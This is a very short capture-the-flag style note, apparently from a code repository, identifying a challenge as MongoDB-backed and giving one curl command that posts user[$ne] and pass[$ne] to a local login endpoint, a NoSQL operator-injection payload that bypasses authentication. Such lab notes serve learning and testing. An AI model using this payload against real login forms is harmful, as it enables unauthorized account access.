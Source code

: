 # From challange name its mongodb (nosql)

## Basic nosql command

```curl -X POST 'http://localhost:3000/login' --data-binary $'user[$ne]=a&pass[$ne]=a'```


